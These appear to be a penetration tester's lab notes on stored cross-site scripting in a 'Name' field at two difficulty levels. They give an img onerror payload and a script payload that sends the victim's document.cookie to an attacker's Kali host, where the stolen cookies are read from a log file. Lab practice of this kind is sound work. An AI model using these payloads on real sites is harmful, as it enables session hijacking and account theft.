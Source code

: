 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

LOW

In the `Name` field:
```
<img src="https://nonexisting.url" onerror=window.open("https://www.owasp.org","xss",'height=500,width=500');>
```


MEDIUM

[[7._XSS#steal php]]

In the `Name` field:
```
<SCRIPT>window.location.replace("http://$KALI/steal.php?q="+document.cookie);</SCRIPT>
```

Now just check `/var/www/html/log.txt` on kali.
